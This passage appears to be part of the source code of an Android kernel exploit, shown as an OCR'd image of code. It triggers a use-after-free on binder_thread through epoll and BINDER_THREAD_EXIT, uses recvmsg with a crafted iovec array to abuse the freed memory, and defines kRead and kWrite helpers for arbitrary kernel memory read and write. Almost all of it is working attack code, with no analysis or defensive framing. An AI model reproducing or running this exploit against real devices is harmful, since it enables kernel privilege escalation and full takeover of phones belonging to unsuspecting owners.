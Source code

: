 ```
    message.msg_iovlen = IOVEC_COUNT;

    printf("[+] linking eppoll_entry->wait.entry to binder_thread->wait.head \n");
    epoll_ctl(m_epoll_fd,EPOLL_CTL_ADD,m_binder_fd, &m_epoll_event);

    pid_t childPid = fork();

    if(childPid == 0){
    
    sleep(2);


    printf("[+] unlinking eppoll_entry->wait.entry from binder_thread->wait.head \n");
    epoll_ctl(m_epoll_fd,EPOLL_CTL_DEL,m_binder_fd, &m_epoll_event);
    
   nBytesWritten =  write(sock_fd[1],FinalSocketData,sizeof(FinalSocketData));

    if(nBytesWritten != sizeof(FinalSocketData)){
        printf("\t [-]write failed. nBytesWritten : 0x%lx , expected : 0x%lx\n",nBytesWritten,sizeof(FinalSocketData));
        exit(EXIT_FAILURE);
    }

    exit(EXIT_SUCCESS);
    }
    
    printf("[+] Freeing binder_thread \n");
    ioctl(m_binder_fd,BINDER_THREAD_EXIT,NULL);

    ssize_t nBytesReceived = recvmsg(sock_fd[0],&message,MSG_WAITALL);

    ssize_t expectedBytesReceived = iovecStack[IOVEC_WQ_INDEX].iov_len + iovecStack[IOVEC_WQ_INDEX + 1].iov_len + iovecStack[IOVEC_WQ_INDEX + 2].iov_len;

    if(nBytesReceived != expectedBytesReceived){
         printf("\t[-] recvmsg failed . nBytesReceived: 0x%lx , expected: 0x%lx\n",nBytesReceived,expectedBytesReceived);
         exit(EXIT_FAILURE);
    }
    wait(nullptr);


}

void kRead(void * Address ,size_t Length ,void * uBuffer){
    ssize_t nBytesWritten = write(m_kernel_rw_pipe_fd[1],Address,Length);

    if( (size_t) nBytesWritten != Length ){
        printf("[-] Failed to write data from kernel :%p\n",Address);
        exit(EXIT_FAILURE);
    }

   ssize_t nBytesRead    = read(m_kernel_rw_pipe_fd[0],uBuffer,Length);

   if( (size_t) nBytesRead != Length ){
       printf("[-] Failed to read data from kernel : %p\n",Address);
       exit(EXIT_FAILURE);
   }

}

void kWrite(void * Address, size_t Length, void * uBuffer){
   ssize_t nBytesWritten = write(m_kernel_rw_pipe_fd[1],uBuffer,Length);
```